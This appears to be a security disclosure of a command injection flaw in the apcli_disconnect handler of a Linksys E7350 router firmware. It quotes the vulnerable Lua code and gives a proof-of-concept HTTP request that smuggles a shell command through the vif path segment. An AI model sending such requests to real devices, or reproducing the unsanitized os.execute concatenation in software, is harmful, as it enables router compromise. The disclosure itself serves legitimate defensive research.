 # Command injection vulnerability in api_disconnect function
### description
Vendor: linksys 

Version: linksysFW_E7350_V1.1.00.032_Prod_20220902_code.bin   

Detail: There is a command injection vulnerability in api_disconnect function in mtkwifi.lua

```
function apcli_disconnect(dev, vif)
    -- dev_vif can be
    --  1. mt7620.apcli0         # simple case
    --  2. mt7615e.1.apclix0     # multi-card
    --  3. mt7615e.1.2G.apclix0  # multi-card & multi-profile
    local devname,vifname = dev, vif
    debug_write("devname=", dev, "vifname", vif)
    debug_write(devname)
    debug_write(vifname)
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])
    local cfgs = mtkwifi.load_profile(profiles[devname])
    cfgs.ApCliEnable = "1"
    __mtkwifi_save_profile(cfgs, profiles[devname], true)
    os.execute("iwpriv "..vifname.." set ApCliEnable=0") ---------------------------->  here
```

We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/fe08f225-da4c-4a5e-8986-23f6549bd581)


![图片](https://github.com/user-attachments/assets/3d684e0e-8149-4a53-b2cd-8f3a0700af6f)


Entry: /admin/mtk/wifi/apcli_disconnect/

! attention
To expolit successfully, we need the correct devname to pass the check. 
```
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])  ----------------->
```
here we use dev "MT7915D.1.1"


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_disconnect/MT7915D.1.1/;ifconfig>b.txt; HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic YWRtaW46
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```
Here we set the arguments "dev" as "MT7915D.1.1" and vif as ";ifconfig>b.txt;", and there will be a file named "b.txt" in /www/




